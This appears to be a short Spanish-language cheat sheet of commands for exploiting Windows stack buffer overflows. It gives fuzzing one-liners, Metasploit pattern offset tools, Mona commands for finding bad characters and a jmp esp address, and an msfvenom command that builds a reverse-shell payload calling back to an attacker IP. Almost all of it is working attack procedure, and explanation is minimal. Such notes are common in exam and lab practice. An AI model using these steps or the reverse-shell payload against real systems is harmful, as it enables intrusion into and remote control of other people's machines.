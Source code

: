 # Pattern

```
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
python -c "print('A'*10000)"

/usr/bin/msf-pattern_create -l 200
/usr/bin/msf-pattern_offset -l 200 -q <EIP>
```

# Mona

```
# Configuración del directorio
!mona config -set workingfolder c:\mona\%p

# Comparar distancia
!mona findmsp -distance 600

# Encontrar malos personajes
!mona bytearray -b "\x00"

# Comparar carácteres
!mona compare -f C:\mona\bytearray.bin -a <ESP address>

# Encontrar jmp esp
!mona jmp -r esp -cpb "\x00" # El resultado va a en retn pero al revés (Little Endian)
```

Generar cadena de carácteres incorrectos con Python:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

## Generar carga útil

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c 
```